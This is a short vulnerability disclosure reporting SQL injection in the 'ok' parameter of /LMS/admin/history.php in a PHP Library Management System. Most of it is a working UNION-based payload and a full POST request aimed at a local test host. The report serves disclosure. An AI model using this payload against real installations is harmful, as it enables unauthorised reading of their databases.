 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/history.php

Vulnerability location: /LMS/admin/history.php, ok

[+] Payload: submit=&ok=1' union select 1,database(),3,4--+ // Leak place ---> ok

```sql
POST /LMS/admin/history.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

submit=&ok=1' union select 1,database(),3,4--+
```

![image](https://user-images.githubusercontent.com/54017627/180450779-ef5fef80-5452-4da6-a7d8-fb44b13a20a5.png)
